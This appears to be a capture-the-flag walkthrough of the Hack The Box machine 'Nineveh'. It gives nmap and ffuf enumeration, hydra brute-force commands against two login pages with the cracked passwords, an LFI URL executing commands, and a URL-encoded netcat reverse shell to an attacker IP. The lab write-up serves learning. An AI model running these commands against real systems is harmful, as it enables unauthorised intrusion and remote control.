


# [Nineveh](https://www.hackthebox.com/machines/nineveh)

```bash
nmap -p0-1023 -A -sC -sV 10.10.10.43
```



Directory brute-forcing
```bash
ffuf -u http://10.10.10.43/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php
```


Let's look at source code of 'department' page of http.


Here we have two possible usernames being 'admin' and 'amrois'

Let's do brute-forcing '/department/login.php' file by using hydra command. (http, port 80)
```bash
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```


We got below credentials, admin:1q2w3e4r5t

After doing some enumeration on http (port 80), I find LFI(Local File Inclusion attack).


Let's switch into another port (https, 443).I just did Directory Brute-forcing, and found phpliteadmin, let's brute-force here also to find admin credentials.

```bash
hydra -l admin -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect" -t 64
```

I just use the same credentials and password system for my attack.
Here's the result.

admin:password123


I found below exploit for phpliteadmin, let's try this.





Now, I use LFI for attack works.
```bash
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/dr4ks.php&cmd=ls
```

here's result of exploit.


Now, it's time to add reverse shell as below, I do URL encoding as because , I enter my payload to URL, and it should be encoded.
```bash
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.9+1234+>/tmp/f 
```


I spawned interactive shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

CTRL+Z

stty raw -echo; fg
```

Then put some modifications
```bash
export TERM=xterm
export SHELL=bash
```

Now, it's time to identify privilege escalation attack vector.
**CVE-2017-6074.**


user.txt and root.txt

